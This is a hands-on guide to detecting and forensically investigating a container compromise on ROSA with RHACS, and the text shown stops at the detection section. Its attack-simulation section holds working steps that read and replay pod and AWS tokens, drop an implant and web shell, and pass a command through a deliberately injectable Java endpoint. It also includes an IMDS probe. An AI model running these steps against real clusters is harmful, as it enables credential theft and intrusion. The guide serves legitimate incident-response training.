This guide walks through a complete container security incident on Red Hat OpenShift Service on AWS (ROSA) with hosted control planes (HCP): detection with Red Hat Advanced Cluster Security (RHACS), followed by forensic response. You will:

1. Prepare a cluster for forensics: control-plane log forwarding, an evidence bucket, a responder role, and RHACS 5.0 with File Activity Monitoring.
2. Deploy test workloads and simulate a compromise: exec, dropped binaries, an in-memory payload, service account and AWS token theft, a Java RCE, and a PVC write.
3. Detect the attack in RHACS.
4. Respond without destroying evidence. You'll isolate the pod and capture its memory with the kubelet checkpoint API, then collect the writable layer, logs, image and volume snapshot, and revoke the stolen credentials.
5. Reconstruct the attack from the control-plane audit log, RHACS and CloudTrail.

Everything here was run end to end on ROSA HCP **4.22.19** with RHACS **5.0.0**. The [findings](#findings) section summarises what worked and what didn't.

> **Note:** The kubelet checkpoint API is documented as generally available in OpenShift 4.17 and later ([Red Hat KB 7008477](https://access.redhat.com/solutions/7008477)). It isn't described in the ROSA documentation. It worked on ROSA HCP 4.22 in this test, but confirm supportability with Red Hat before you rely on it in production incident response.

## Prerequisites

* A ROSA HCP **4.22** cluster (this guide used a public cluster in a BYO VPC across 3 AZs, STS with managed OIDC, and 3 × m5.xlarge workers). See [Creating a ROSA with HCP cluster](https://docs.redhat.com/en/documentation/red_hat_openshift_service_on_aws/4/html/install_clusters/index).
* A user with `cluster-admin`
* CLIs: `rosa`, `oc` (4.22), `aws`, `jq`, `podman`, `skopeo`
* AWS permissions to create IAM roles, CloudWatch log groups, S3 buckets and EBS snapshots
* About 4 hours. A 1-hour wait for RHACS process baselines is built in.

## Set environment variables

```bash
export CLUSTER=<your-cluster-name>
export REGION=$(rosa describe cluster -c $CLUSTER -o json | jq -r .region.id)
export ACCOUNT=$(aws sts get-caller-identity --query Account --output text)
export OIDC=$(oc get authentication cluster -o jsonpath='{.spec.serviceAccountIssuer}' | sed 's|https://||')
export API=$(oc whoami --show-server)
export SUBNET_A=<private subnet ID in the first AZ>
export SUBNET_B=<private subnet ID in the second AZ>
export BUCKET=${CLUSTER}-forensics-evidence-${ACCOUNT}
export NSV=forensics-victim NST=forensics-tools
export TOOLS_IMG=$(oc get is tools -n openshift -o jsonpath='{.status.tags[0].items[0].dockerImageReference}')
export RUNID=$(uuidgen | tr 'A-Z' 'a-z' | cut -c1-8)
mkdir -p forensics/{evidence,logs} && cd forensics
```

## 1. Prepare the cluster

### 1.1 Forward control-plane logs to CloudWatch

On ROSA HCP the API server runs in the Red Hat-managed control plane. **RHACS can't read Kubernetes audit logs on HCP**, so the audit trail has to come from [control-plane log forwarding](https://docs.redhat.com/en/documentation/red_hat_openshift_service_on_aws/4/html/observability/logging). Enable it **before** an incident: logs from before forwarding was enabled can't be recovered.

> **Note:** Take the principal ARN for the trust policy from the current ROSA log-forwarding documentation for your region.

```bash
aws logs create-log-group --log-group-name ctllogfwd-$CLUSTER
aws logs put-retention-policy --log-group-name ctllogfwd-$CLUSTER --retention-in-days 14

cat > logfwd-trust.json <<'EOF'
{"Version":"2012-10-17","Statement":[{"Effect":"Allow",
 "Principal":{"AWS":"<ROSA central log distribution role ARN from the docs>"},
 "Action":"sts:AssumeRole"}]}
EOF
cat > logfwd-policy.json <<EOF
{"Version":"2012-10-17","Statement":[
 {"Effect":"Allow","Action":["logs:CreateLogStream","logs:PutLogEvents"],
  "Resource":"arn:aws:logs:${REGION}:${ACCOUNT}:log-group:ctllogfwd-${CLUSTER}:*"},
 {"Effect":"Allow","Action":["logs:DescribeLogGroups","logs:DescribeLogStreams"],"Resource":"*"}]}
EOF
aws iam create-role --role-name CustomerLogDistribution-$CLUSTER --assume-role-policy-document file://logfwd-trust.json
aws iam put-role-policy --role-name CustomerLogDistribution-$CLUSTER --policy-name logfwd --policy-document file://logfwd-policy.json

cat > logfwd.yaml <<EOF
cloudwatch:
  cloudwatch_log_role_arn: "arn:aws:iam::${ACCOUNT}:role/CustomerLogDistribution-${CLUSTER}"
  cloudwatch_log_group_name: "ctllogfwd-${CLUSTER}"
  groups: ["api", "authentication"]
EOF
rosa create log-forwarder -c $CLUSTER --log-fwd-config logfwd.yaml -y
rosa list log-forwarders -c $CLUSTER
```

Audit events (`audit.k8s.io/v1`, level `Metadata`) appear in the `kube-apiserver` and `audit-webhook` streams about 1–2 minutes after each request.

### 1.2 Add machine pools

Use a dedicated, tainted pool for the workloads under investigation. That way you can turn off AutoRepair on it without affecting anything else. RHACS 5.0 also needs extra capacity: Sensor requests 2 vCPU / 4 GiB and Central DB 4 vCPU / 8 GiB.

```bash
rosa create machinepool -c $CLUSTER --name forensics --replicas 2 --instance-type m5.xlarge \
  --subnet $SUBNET_A --labels purpose=forensics --taints purpose=forensics:NoSchedule
rosa create machinepool -c $CLUSTER --name acs --replicas 2 --instance-type m5.2xlarge \
  --subnet $SUBNET_B --labels purpose=acs
```

> **Note:** After a new node joins, its kubelet serving certificate can take several minutes to be approved (about 6 minutes in this test). Until then, `oc logs`, `oc exec` and checkpoint calls to that node fail with `tls: internal error`.

### 1.3 Create an evidence bucket with Object Lock

```bash
aws s3api create-bucket --bucket $BUCKET --region $REGION \
  --create-bucket-configuration LocationConstraint=$REGION --object-lock-enabled-for-bucket
aws s3api put-public-access-block --bucket $BUCKET --public-access-block-configuration \
  BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true
aws s3api put-bucket-encryption --bucket $BUCKET --server-side-encryption-configuration \
  '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"aws:kms"},"BucketKeyEnabled":true}]}'
aws s3api put-object-lock-configuration --bucket $BUCKET --object-lock-configuration \
  '{"ObjectLockEnabled":"Enabled","Rule":{"DefaultRetention":{"Mode":"GOVERNANCE","Days":1}}}'
# Deny the cluster's own roles
aws s3api put-bucket-policy --bucket $BUCKET --policy "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Deny\",\"Principal\":\"*\",\"Action\":\"s3:*\",\"Resource\":[\"arn:aws:s3:::$BUCKET\",\"arn:aws:s3:::$BUCKET/*\"],\"Condition\":{\"ArnLike\":{\"aws:PrincipalArn\":[\"arn:aws:iam::$ACCOUNT:role/$CLUSTER-*\",\"arn:aws:iam::$ACCOUNT:role/forensics-victim-role\"]}}}]}"
```

For real investigations, put the bucket in a **separate AWS account** and use `COMPLIANCE` mode. Governance mode with 1-day retention keeps this test easy to clean up.

### 1.4 Create a forensics namespace and a least-privilege responder role

The checkpoint API is reached through the API server's node proxy. On ROSA HCP, **`nodes/proxy` create is the only permission a responder needs to checkpoint**. The `nodes/checkpoint` ClusterRoleBinding from KB 7008477 wasn't required on HCP in this test. `nodes/proxy` also gives exec access to any pod through the kubelet, so grant it only to break-glass identities and alert on its use.

```bash
cat <<'EOF' | oc apply -f -
apiVersion: v1
kind: Namespace
metadata:
  name: forensics-tools
  labels:
    security.openshift.io/scc.podSecurityLabelSync: "false"
    pod-security.kubernetes.io/enforce: privileged
    pod-security.kubernetes.io/warn: privileged
    pod-security.kubernetes.io/audit: privileged
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata: {name: forensic-responder}
rules:
- {apiGroups: [""], resources: ["nodes/proxy", "nodes/log"], verbs: ["get", "create"]}
- {apiGroups: [""], resources: ["nodes"], verbs: ["get", "list", "patch"]}
- {apiGroups: [""], resources: ["pods", "pods/log", "events", "serviceaccounts"], verbs: ["get", "list", "watch"]}
- {apiGroups: [""], resources: ["pods"], verbs: ["patch"]}
- {apiGroups: ["networking.k8s.io"], resources: ["networkpolicies"], verbs: ["get", "list", "create"]}
- {apiGroups: ["apps"], resources: ["deployments", "replicasets", "statefulsets", "daemonsets"], verbs: ["get", "list"]}
- {apiGroups: ["snapshot.storage.k8s.io"], resources: ["volumesnapshots"], verbs: ["get", "list", "create"]}
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata: {name: forensic-responder}
roleRef: {apiGroup: rbac.authorization.k8s.io, kind: ClusterRole, name: forensic-responder}
subjects: [{apiGroup: rbac.authorization.k8s.io, kind: User, name: forensic-responder}]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata: {name: forensic-responder-admin, namespace: forensics-tools}
roleRef: {apiGroup: rbac.authorization.k8s.io, kind: ClusterRole, name: admin}
subjects: [{apiGroup: rbac.authorization.k8s.io, kind: User, name: forensic-responder}]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata: {name: forensic-responder-privileged-scc, namespace: forensics-tools}
roleRef: {apiGroup: rbac.authorization.k8s.io, kind: ClusterRole, name: "system:openshift:scc:privileged"}
subjects: [{apiGroup: rbac.authorization.k8s.io, kind: User, name: forensic-responder}]
EOF
oc auth can-i create nodes --subresource=proxy --as=forensic-responder   # yes
oc auth can-i get secrets -n default --as=forensic-responder             # no
```

### 1.5 Install RHACS 5.0

```bash
cat <<'EOF' | oc apply -f -
apiVersion: v1
kind: Namespace
metadata: {name: rhacs-operator}
---
apiVersion: operators.coreos.com/v1
kind: OperatorGroup
metadata: {name: rhacs-operator, namespace: rhacs-operator}
spec: {}
---
apiVersion: operators.coreos.com/v1alpha1
kind: Subscription
metadata: {name: rhacs-operator, namespace: rhacs-operator}
spec: {channel: rhacs-5.0, name: rhacs-operator, source: redhat-operators, sourceNamespace: openshift-marketplace}
EOF
oc get csv -n rhacs-operator -w     # wait for Succeeded

cat <<'EOF' | oc apply -f -
apiVersion: v1
kind: Namespace
metadata: {name: stackrox}
---
apiVersion: platform.stackrox.io/v1alpha1
kind: Central
metadata: {name: stackrox-central-services, namespace: stackrox}
spec:
  central:
    exposure: {route: {enabled: true}}
  egress: {connectivityPolicy: Online}
EOF
oc wait --for=condition=Available deploy/central -n stackrox --timeout=15m

export CENTRAL=$(oc get route central -n stackrox -o jsonpath='{.spec.host}')
export ACS_PW=$(oc get secret central-htpasswd -n stackrox -o jsonpath='{.data.password}' | base64 -d)
acs(){ curl -sk -u "admin:$ACS_PW" "$@"; }

# Register the cluster with a cluster registration secret (CRS)
acs -X POST "https://$CENTRAL/v1/cluster-init/crs" -d "{\"name\":\"$CLUSTER\"}" \
  | jq -r .crs | base64 -d | oc apply -n stackrox -f -

cat <<EOF | oc apply -f -
apiVersion: platform.stackrox.io/v1alpha1
kind: SecuredCluster
metadata: {name: stackrox-secured-cluster-services, namespace: stackrox}
spec:
  clusterName: $CLUSTER
  centralEndpoint: central.stackrox.svc:443
  perNode:
    taintToleration: TolerateTaints          # also cover the tainted forensics pool
    fileActivityMonitoring: {mode: Enabled}  # FAM (GA in 5.0)
  processBaselines: {autoLock: Enabled}      # lock baselines after the 1 h observation period
EOF
```

Check the cluster's health in RHACS:

```bash
acs "https://$CENTRAL/v1/clusters" | jq '.clusters[0] | {name, health: .healthStatus.overallHealthStatus, auditLogState}'
```

Expect `HEALTHY` and `auditLogState: {}`. The empty `auditLogState` means no audit-log collection, which is expected on HCP. Each Collector pod runs `collector`, `fact` (the FAM agent) and `compliance` containers, including on the tainted nodes.

### 1.6 Add detection policies for this scenario

These inform-only policies cover service account token reads, a `kubectl` binary inside an app container, and file changes in container and host paths. In the 5.0 API, the FAM criteria are named `File Path` and `File Operation`.

```bash
mkpol(){ jq -n --arg n "$1" --arg ev "$2" --argjson scope "$3" --argjson groups "$4" \
 '{name:$n, description:"forensics guide", rationale:"forensics guide", remediation:"n/a",
   categories:["Anomalous Activity"], lifecycleStages:["RUNTIME"], eventSource:$ev, severity:"HIGH_SEVERITY",
   scope:$scope, policySections:[{sectionName:"rule", policyGroups:$groups}], enforcementActions:[], disabled:false}' \
 | acs -X POST "https://$CENTRAL/v1/policies?enableStrictValidation=true" -H 'Content-Type: application/json' -d @- | jq -r '.id // .message'; }
NS_SCOPE='[{"namespace":"forensics-victim"}]'

mkpol "FG: SA token path in process args" DEPLOYMENT_EVENT "$NS_SCOPE" \
 '[{"fieldName":"Process Arguments","values":[{"value":".*/var/run/secrets/kubernetes\\.io/serviceaccount.*"}]}]'
mkpol "FG: oc or kubectl in app container" DEPLOYMENT_EVENT "$NS_SCOPE" \
 '[{"fieldName":"Process Name","values":[{"value":"^(oc|kubectl)$"}]}]'
mkpol "FG: file change in app writable paths" DEPLOYMENT_EVENT "$NS_SCOPE" \
 '[{"fieldName":"File Path","values":[{"value":"/opt/app-root/src/**"},{"value":"/tmp/**"}]},
   {"fieldName":"File Operation","values":[{"value":"CREATE"},{"value":"UNLINK"},{"value":"RENAME"},{"value":"OPEN"},{"value":"PERMISSION_CHANGE"}]}]'
mkpol "FG: node canary file change" NODE_EVENT '[]' \
 '[{"fieldName":"File Path","values":[{"value":"/etc/ft-canary*"}]},
   {"fieldName":"File Operation","values":[{"value":"CREATE"},{"value":"OPEN"},{"value":"UNLINK"}]}]'
```

### 1.7 Build a local analysis image

Analyse checkpoints on your workstation, never inside the cluster:

```bash
cat > Containerfile.analysis <<'EOF'
FROM registry.fedoraproject.org/fedora:latest
RUN dnf -y install checkpointctl jq tar && dnf clean all
WORKDIR /evidence
EOF
podman build -t localhost/forensics-analysis:1 -f Containerfile.analysis .
```

This guide used `checkpointctl` 1.7.0.

## 2. Deploy the test workloads

| Workload | Purpose |
|---|---|
| `victim-a` | Python app with a canary secret (env var and file), a persistent connection to a "C2" service, and a projected AWS web-identity token |
| `victim-b` | Java app with a simulated remote-code-execution endpoint |
| `victim-c` | Pod with a sidecar |
| `victim-d` | App writing to an EBS-backed PVC |
| `victim-e` | Distroless-style container (no shell, no `tar`) |
| `victim-f` | 3 GiB of memory, to measure checkpoint size and duration |
| `c2-sim` | Simulated command-and-control listener |

First create an IAM role with **no permissions** that only `victim-sa` can assume. It's used to show what a stolen web-identity token allows.

```bash
cat > victim-role-trust.json <<EOF
{"Version":"2012-10-17","Statement":[{"Effect":"Allow",
 "Principal":{"Federated":"arn:aws:iam::${ACCOUNT}:oidc-provider/${OIDC}"},
 "Action":"sts:AssumeRoleWithWebIdentity",
 "Condition":{"StringEquals":{"${OIDC}:sub":"system:serviceaccount:forensics-victim:victim-sa","${OIDC}:aud":"sts.amazonaws.com"}}}]}
EOF
aws iam create-role --role-name forensics-victim-role --assume-role-policy-document file://victim-role-trust.json
```

> **Note:** If you use zsh, write `${OIDC}:sub`, not `$OIDC:sub`. zsh treats `:s` and `:a` after a variable name as modifiers.

Now deploy the workloads. The images are pinned to the digests used in this test.

```bash
PY=registry.access.redhat.com/ubi9/python-311@sha256:7b6cb58d3ff034df7b300800bd89a469d9bd2f739d43250d76b9c9e805307ab5
JDK=registry.access.redhat.com/ubi9/openjdk-21@sha256:678acf0a00bb4a0d986b8397f472531aa2fe8d2b068f360c96f835889cac44c3
MIN=registry.access.redhat.com/ubi9/ubi-minimal@sha256:08d4c70f1baf6537a0728656cf7942d561e74a35916509d205b6519861266352
PAUSE=registry.k8s.io/pause@sha256:7c38f24774e3cbd906d2d33c38354ccf787635581c122965132c9bd309754d4a

cat <<EOF | oc apply -f -
apiVersion: v1
kind: Namespace
metadata: {name: forensics-c2}
---
apiVersion: v1
kind: Namespace
metadata: {name: forensics-victim}
---
apiVersion: v1
kind: ServiceAccount
metadata: {name: victim-sa, namespace: forensics-victim}
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata: {name: victim-reader, namespace: forensics-victim}
rules: [{apiGroups: [""], resources: [pods, secrets, configmaps], verbs: [get, list]}]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata: {name: victim-reader, namespace: forensics-victim}
roleRef: {apiGroup: rbac.authorization.k8s.io, kind: Role, name: victim-reader}
subjects: [{kind: ServiceAccount, name: victim-sa, namespace: forensics-victim}]
---
apiVersion: v1
kind: Secret
metadata: {name: canary-secret, namespace: forensics-victim}
stringData: {canary: FORENSIC-CANARY-SECRET-${RUNID}}
---
apiVersion: v1
kind: ConfigMap
metadata: {name: victim-code, namespace: forensics-victim}
data:
  app.py: |
    import os, socket, threading, time, http.server, json
    CANARY_FILE = open("/etc/app-secrets/canary").read().strip()
    state = {"c2": "init"}
    def c2():
        while True:
            try:
                s = socket.create_connection(("c2-sim.forensics-c2.svc", 4444), timeout=10)
                s.settimeout(10); print("c2 connected", flush=True); state["c2"] = "connected"
                while True:
                    s.sendall(b"beacon %d\n" % int(time.time()))
                    if not s.recv(64): raise IOError("closed by peer")
                    time.sleep(5)
            except Exception as e:
                state["c2"] = "lost: %s" % e; print("c2 lost:", e, flush=True); time.sleep(5)
    threading.Thread(target=c2, daemon=True).start()
    class H(http.server.BaseHTTPRequestHandler):
        def do_GET(self):
            b = json.dumps({"ok": True, "c2": state["c2"]}).encode()
            self.send_response(200); self.end_headers(); self.wfile.write(b)
        def log_message(self, *a): pass
    http.server.ThreadingHTTPServer(("", 8080), H).serve_forever()
  bigmem.py: |
    import os, time
    size = 3 * 1024**3
    buf = bytearray(b"\x5a") * size
    marker = ("FORENSIC-CANARY-BIGMEM-" + os.environ["RUNID"]).encode()
    buf[size//2:size//2 + len(marker)] = marker
    print("allocated", size, flush=True)
    while True: time.sleep(60)
  Rce.java: |
    import com.sun.net.httpserver.*; import java.net.*; import java.nio.charset.StandardCharsets;
    public class Rce {
      public static void main(String[] a) throws Exception {
        HttpServer s = HttpServer.create(new InetSocketAddress(8080), 0);
        s.createContext("/healthz", x -> { byte[] b = "ok".getBytes(); x.sendResponseHeaders(200, b.length); x.getResponseBody().write(b); x.close(); });
        s.createContext("/run", x -> {
          String q = x.getRequestURI().getRawQuery();
          String cmd = URLDecoder.decode(q == null ? "id" : q.replaceFirst("^cmd=", ""), StandardCharsets.UTF_8);
          Process p = new ProcessBuilder("sh", "-c", cmd).redirectErrorStream(true).start();
          byte[] out = p.getInputStream().readAllBytes();
          x.sendResponseHeaders(200, out.length); x.getResponseBody().write(out); x.close(); });
        s.start();
      }
    }
---
apiVersion: v1
kind: ConfigMap
metadata: {name: c2-code, namespace: forensics-c2}
data:
  c2.py: |
    import socketserver
    class H(socketserver.StreamRequestHandler):
        def handle(self):
            print("beacon session from", self.client_address, flush=True)
            for line in self.rfile: self.wfile.write(b"ack\n")
    socketserver.ThreadingTCPServer.allow_reuse_address = True
    socketserver.ThreadingTCPServer(("", 4444), H).serve_forever()
---
apiVersion: apps/v1
kind: Deployment
metadata: {name: c2-sim, namespace: forensics-c2}
spec:
  selector: {matchLabels: {app: c2-sim}}
  template:
    metadata: {labels: {app: c2-sim}}
    spec:
      containers:
      - {name: c2, image: $PY, command: ["python", "/code/c2.py"], volumeMounts: [{name: code, mountPath: /code}]}
      volumes: [{name: code, configMap: {name: c2-code}}]
---
apiVersion: v1
kind: Service
metadata: {name: c2-sim, namespace: forensics-c2}
spec: {selector: {app: c2-sim}, ports: [{port: 4444}]}
---
apiVersion: apps/v1
kind: Deployment
metadata: {name: victim-a, namespace: forensics-victim}
spec:
  selector: {matchLabels: {app: victim-a}}
  template:
    metadata: {labels: {app: victim-a}}
    spec:
      serviceAccountName: victim-sa
      nodeSelector: {purpose: forensics}
      tolerations: [{key: purpose, value: forensics, effect: NoSchedule}]
      containers:
      - name: app
        image: $PY
        command: ["python", "/code/app.py"]
        env:
        - {name: CANARY_API_KEY, valueFrom: {secretKeyRef: {name: canary-secret, key: canary}}}
        - {name: AWS_ROLE_ARN, value: "arn:aws:iam::${ACCOUNT}:role/forensics-victim-role"}
        - {name: AWS_WEB_IDENTITY_TOKEN_FILE, value: /var/run/secrets/aws/token}
        livenessProbe: {httpGet: {path: /healthz, port: 8080}, periodSeconds: 10}
        volumeMounts:
        - {name: code, mountPath: /code}
        - {name: canary, mountPath: /etc/app-secrets, readOnly: true}
        - {name: aws-token, mountPath: /var/run/secrets/aws, readOnly: true}
      volumes:
      - {name: code, configMap: {name: victim-code}}
      - {name: canary, secret: {secretName: canary-secret}}
      - name: aws-token
        projected: {sources: [{serviceAccountToken: {audience: sts.amazonaws.com, expirationSeconds: 3600, path: token}}]}
---
apiVersion: apps/v1
kind: Deployment
metadata: {name: victim-b, namespace: forensics-victim}
spec:
  selector: {matchLabels: {app: victim-b}}
  template:
    metadata: {labels: {app: victim-b}}
    spec:
      nodeSelector: {purpose: forensics}
      tolerations: [{key: purpose, value: forensics, effect: NoSchedule}]
      containers:
      - {name: app, image: $JDK, command: ["java", "/code/Rce.java"], volumeMounts: [{name: code, mountPath: /code}]}
      volumes: [{name: code, configMap: {name: victim-code}}]
---
apiVersion: v1
kind: Service
metadata: {name: victim-b, namespace: forensics-victim}
spec: {selector: {app: victim-b}, ports: [{port: 8080}]}
---
apiVersion: apps/v1
kind: Deployment
metadata: {name: victim-c, namespace: forensics-victim}
spec:
  selector: {matchLabels: {app: victim-c}}
  template:
    metadata: {labels: {app: victim-c}}
    spec:
      nodeSelector: {purpose: forensics}
      tolerations: [{key: purpose, value: forensics, effect: NoSchedule}]
      containers:
      - {name: app, image: $PY, command: ["python", "-m", "http.server", "8080", "--directory", "/shared"], volumeMounts: [{name: shared, mountPath: /shared}]}
      - {name: log-shipper, image: $MIN, command: ["sh", "-c", "while true; do date -u >> /shared/heartbeat.log; sleep 5; done"], volumeMounts: [{name: shared, mountPath: /shared}]}
      volumes: [{name: shared, emptyDir: {}}]
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata: {name: victim-d-data, namespace: forensics-victim}
spec: {accessModes: [ReadWriteOnce], storageClassName: gp3-csi, resources: {requests: {storage: 1Gi}}}
---
apiVersion: apps/v1
kind: Deployment
metadata: {name: victim-d, namespace: forensics-victim}
spec:
  strategy: {type: Recreate}
  selector: {matchLabels: {app: victim-d}}
  template:
    metadata: {labels: {app: victim-d}}
    spec:
      nodeSelector: {purpose: forensics}
      tolerations: [{key: purpose, value: forensics, effect: NoSchedule}]
      containers:
      - {name: app, image: $MIN, command: ["sh", "-c", "while true; do date -u >> /data/app.log; sleep 30; done"], volumeMounts: [{name: data, mountPath: /data}]}
      volumes: [{name: data, persistentVolumeClaim: {claimName: victim-d-data}}]
---
apiVersion: apps/v1
kind: Deployment
metadata: {name: victim-e, namespace: forensics-victim}
spec:
  selector: {matchLabels: {app: victim-e}}
  template:
    metadata: {labels: {app: victim-e}}
    spec:
      nodeSelector: {purpose: forensics}
      tolerations: [{key: purpose, value: forensics, effect: NoSchedule}]
      containers: [{name: app, image: $PAUSE}]
---
apiVersion: apps/v1
kind: Deployment
metadata: {name: victim-f, namespace: forensics-victim}
spec:
  selector: {matchLabels: {app: victim-f}}
  template:
    metadata: {labels: {app: victim-f}}
    spec:
      nodeSelector: {purpose: forensics}
      tolerations: [{key: purpose, value: forensics, effect: NoSchedule}]
      containers:
      - name: app
        image: $PY
        command: ["python", "/code/bigmem.py"]
        env: [{name: RUNID, value: "$RUNID"}]
        resources: {requests: {memory: 3584Mi}, limits: {memory: 4Gi}}
        volumeMounts: [{name: code, mountPath: /code}]
      volumes: [{name: code, configMap: {name: victim-code}}]
EOF
oc get pods -n forensics-victim -o wide
oc logs -n forensics-victim deploy/victim-a     # "c2 connected"
```

### Wait for the process baselines to lock

RHACS learns each deployment's normal processes for 1 hour and then locks the baseline (`autoLock`). **Don't exec into the workloads during that hour**: anything you run is learned as normal, and the attack's shell would then go unflagged. Check the lock time:

```bash
CID=$(acs "https://$CENTRAL/v1/clusters" | jq -r '.clusters[0].id')
DID=$(acs "https://$CENTRAL/v1/deploymentswithprocessinfo?query=Deployment:victim-a%2BNamespace:forensics-victim" | jq -r '.deployments[0].deployment.id')
acs "https://$CENTRAL/v1/processbaselines/key?key.deploymentId=$DID&key.containerName=app&key.clusterId=$CID&key.namespace=forensics-victim" \
  | jq '{elements: [.elements[].element.processName], userLockedTimestamp}'
```

## 3. Optional: test checkpointing before the incident

While you wait, check that checkpointing works and see what it costs. The commands below don't run anything inside the containers, so they don't affect the baselines.

Start a privileged **collector pod** pinned to the node. It's equivalent to `oc debug node`, but reproducible, and it uses the cluster's own tools image (which includes `tcpdump`, `nsenter` and `strace`; `crictl` comes from the host):

```bash
collector_up(){ local node=$1 name=fc-$(echo ${1%%.*} | tr -d .)
cat <<EOF | oc apply -f - >/dev/null
apiVersion: v1
kind: Pod
metadata: {name: $name, namespace: forensics-tools}
spec:
  nodeName: $node
  hostPID: true
  hostNetwork: true
  restartPolicy: Never
  tolerations: [{operator: Exists}]
  containers:
  - name: c
    image: $TOOLS_IMG
    command: ["sleep", "14400"]
    securityContext: {privileged: true, runAsUser: 0}
    volumeMounts: [{name: host, mountPath: /host}]
  volumes: [{name: host, hostPath: {path: /}}]
EOF
oc wait --for=condition=Ready pod/$name -n forensics-tools --timeout=180s >/dev/null && echo $name; }
hostx(){ local p=$1; shift; oc exec -n forensics-tools $p -- chroot /host sh -c "$*"; }
checkpoint(){ curl -sk -X POST -H "Authorization: Bearer $(oc whoami -t)" \
  "$API/api/v1/nodes/$1/proxy/checkpoint/$2/$3/$4?timeout=600" -w '\nHTTP %{http_code} %{time_total}s\n'; }

POD=$(oc get pod -n $NSV -l app=victim-f -o jsonpath='{.items[0].metadata.name}')
NODE=$(oc get pod -n $NSV $POD -o jsonpath='{.spec.nodeName}')
checkpoint $NODE $NSV $POD app
```

Example output:

```
{"items":["/var/lib/kubelet/checkpoints/checkpoint-victim-f-..._forensics-victim-app-2026-11-24T00:10:44Z.tar"]}
HTTP 200 26.827187s
```

Measured results:

| Container | Result |
|---|---|
| Distroless (`victim-e`) | 200 in 0.3–0.5 s |
| Sidecar pod (`victim-c`) | Each container checkpointed separately, about 0.4 s each |
| 3 GiB (`victim-f`) | 26.8 s total, **frozen 5.3 s**, 3,076 MB archive on the node's root disk; the container **kept running** with 0 restarts |
| **Established TCP connection (`victim-a`)** | **HTTP 500**: `CRIU … Connected TCP socket, consider using --tcp-established option`. The kubelet API has no option for this. The workaround is in [step 6.5](#65-checkpoint-the-container). |

## 4. Simulate the attack

Run this phase after the baselines lock.

### 4.1 Steal tokens from the node filesystem

This step simulates an attacker who has reached the node. Projected tokens are stored under the kubelet's pod directory:

```bash
POD=$(oc get pod -n $NSV -l app=victim-a -o jsonpath='{.items[0].metadata.name}')
NODE=$(oc get pod -n $NSV $POD -o jsonpath='{.spec.nodeName}')
UID_A=$(oc get pod -n $NSV $POD -o jsonpath='{.metadata.uid}')
C=$(collector_up $NODE)
oc exec -n forensics-tools $C -- sh -c "cat /host/var/lib/kubelet/pods/$UID_A/volumes/kubernetes.io~projected/kube-api-access-*/token" > sa.token
oc exec -n forensics-tools $C -- sh -c "cat /host/var/lib/kubelet/pods/$UID_A/volumes/kubernetes.io~projected/aws-token/token" > aws.token
chmod 600 *.token
```

When decoded, the service account token is **valid for 1 year** (`exp`), with `kubernetes.io.warnafter` set 1 hour after issue. It's bound to the pod and node. The AWS token (`aud: sts.amazonaws.com`) expires after 1 hour.

### 4.2 Use the stolen tokens from outside the cluster

```bash
curl -sk -H "Authorization: Bearer $(cat sa.token)" -H "User-Agent: attacker-curl/1.0" \
  "$API/api/v1/namespaces/forensics-victim/secrets/canary-secret" -o /dev/null -w '%{http_code}\n'   # 200
aws sts assume-role-with-web-identity --no-sign-request \
  --role-arn arn:aws:iam::$ACCOUNT:role/forensics-victim-role --role-session-name stolen-token-test \
  --web-identity-token "$(cat aws.token)" > stolen-session.json
```

Repeat the first `curl` more than 1 hour after the token was issued. It still works, and the audit event now carries a `stale-token` annotation (see [section 7](#7-investigate-with-the-audit-log-and-cloudtrail)).

### 4.3 Attack inside the containers

```bash
# Reconnaissance and tampering: add an implant and a web shell, change one image file, delete another
oc exec -n $NSV $POD -- sh -c 'id; uname -r; ls -la /opt/app-root/'
oc exec -n $NSV $POD -- sh -c 'cp /usr/bin/curl /tmp/implant && chmod 755 /tmp/implant;
  printf "import os\nprint(os.popen(\"id\").read())\n" > /opt/app-root/src/shell.py;
  echo "# tampered-by-attacker" >> /opt/app-root/pyvenv.cfg; rm -f /opt/app-root/etc/generate_container_user'

# In-memory payload: the canary is ROT13-encoded in argv, so the plaintext exists only in memory
ENC=$(python3 -c "import codecs; print(codecs.encode('FORENSIC-CANARY-MEMORY-$RUNID','rot13'))")
oc exec -n $NSV $POD -- sh -c "nohup python -c \"import time,codecs; s=codecs.decode('$ENC','rot13'); time.sleep(10**7)\" >/dev/null 2>&1 &"

# Service account token use inside the pod
oc exec -n $NSV $POD -- sh -c 'T=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token);
  curl -sk -H "Authorization: Bearer $T" https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/forensics-victim/secrets -o /tmp/loot.json;
  curl -sk -H "Authorization: Bearer $T" https://$KUBERNETES_SERVICE_HOST/api/v1/secrets -o /dev/null'

# Tooling and failed attempts
oc exec -n $NSV $POD -- sh -c 'cp /usr/bin/true /tmp/kubectl && /tmp/kubectl get pods'
oc exec -n $NSV $POD -- sh -c '/tmp/does-not-exist; printf "echo hi\n" > /tmp/noexec.sh; chmod 644 /tmp/noexec.sh; /tmp/noexec.sh'

# Remote code execution against the Java app, including an IMDS probe
oc exec -n forensics-c2 deploy/c2-sim -- python -c "import urllib.request,urllib.parse; print(urllib.request.urlopen('http://victim-b.forensics-victim.svc:8080/run?cmd='+urllib.parse.quote('id; curl -s -m 3 http://169.254.169.254/latest/meta-data/ -o /dev/null -w imds=%{http_code}')).read().decode())"

# Data staged on a persistent volume
oc exec -n $NSV deploy/victim-d -- sh -c 'echo "exfil staging $(date -u)" > /data/stolen.txt; cp /etc/passwd /data/passwd.copy'
```

The IMDS probe returned `imds=000` (timeout). Pods on this ROSA HCP cluster couldn't reach EC2 instance metadata.

## 5. Detect with RHACS

Open RHACS (`https://$CENTRAL`, user `admin`) and go to **Violations → User Workloads → Active**. The test namespaces are user workloads. **Platform** holds OpenShift and RHACS namespaces, **Nodes** holds node file-activity violations, and **All Violations** shows everything.

